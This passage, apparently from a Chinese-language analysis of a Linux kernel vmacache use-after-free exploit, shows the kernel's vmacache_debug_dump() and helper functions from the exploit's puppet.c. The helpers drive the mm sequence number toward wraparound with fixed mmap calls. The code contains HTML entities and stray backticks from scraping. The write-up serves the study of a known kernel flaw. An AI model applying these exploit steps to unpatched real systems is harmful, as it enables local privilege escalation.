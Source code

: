 vmacache_debug_dump():

```
void vmacache_debug_dump(void)
`{`
 struct mm_struct *mm = current-&gt;mm;
 struct task_struct *g, *p;
 int i;

 pr_warn("entering     vmacache_debug_dump(0x%lx)n", (unsigned long)mm);
 pr_warn("  mm sequence: 0x%xn", mm-&gt;vmacache_seqnum);
 rcu_read_lock();
 for_each_process_thread(g, p) `{`
   if (mm == p-&gt;mm) `{`
     pr_warn("  task 0x%lx at 0x%x%sn", (unsigned long)p,
   p-&gt;vmacache.seqnum,
   (current == p)?" (current)":"");
 pr_warn("    cache dump:n");
 for (i=0; i&lt;VMACACHE_SIZE; i++) `{`
   unsigned long vm_start, vm_end, vm_mm;
   int err = 0;

   pr_warn("      0x%lxn",
     (unsigned long)p-&gt;vmacache.vmas[i]);
   err |= probe_kernel_read(&amp;vm_start,
     &amp;p-&gt;vmacache.vmas[i]-&gt;vm_start,
     sizeof(unsigned long));
   err |= probe_kernel_read(&amp;vm_end,
     &amp;p-&gt;vmacache.vmas[i]-&gt;vm_end,
     sizeof(unsigned long));
   err |= probe_kernel_read(&amp;vm_mm,
     &amp;p-&gt;vmacache.vmas[i]-&gt;vm_mm,
     sizeof(unsigned long));
   if (err)
     continue;
   pr_warn("        start=0x%lx end=0x%lx mm=0x%lxn",
     vm_start, vm_end, vm_mm);
     `}`
   `}`
 `}`
```

再看puppet.c<br>
首先我们有一个全局变量sequence_mirror，用于标记mm_struct的seqnum的值

```
static void sequence_double_inc(void) `{`
    mmap(FAST_WRAP_AREA + PAGE_SIZE, PAGE_SIZE, PROT_RW, MAP_PRIV_ANON|MAP_FIXED, -1, 0);
    sequence_mirror += 2;
`}`
static void sequence_inc(void) `{`
    mmap(FAST_WRAP_AREA, PAGE_SIZE, PROT_RW, MAP_PRIV_ANON|MAP_FIXED, -1, 0);
    sequence_mirror += 1;
`}`
```
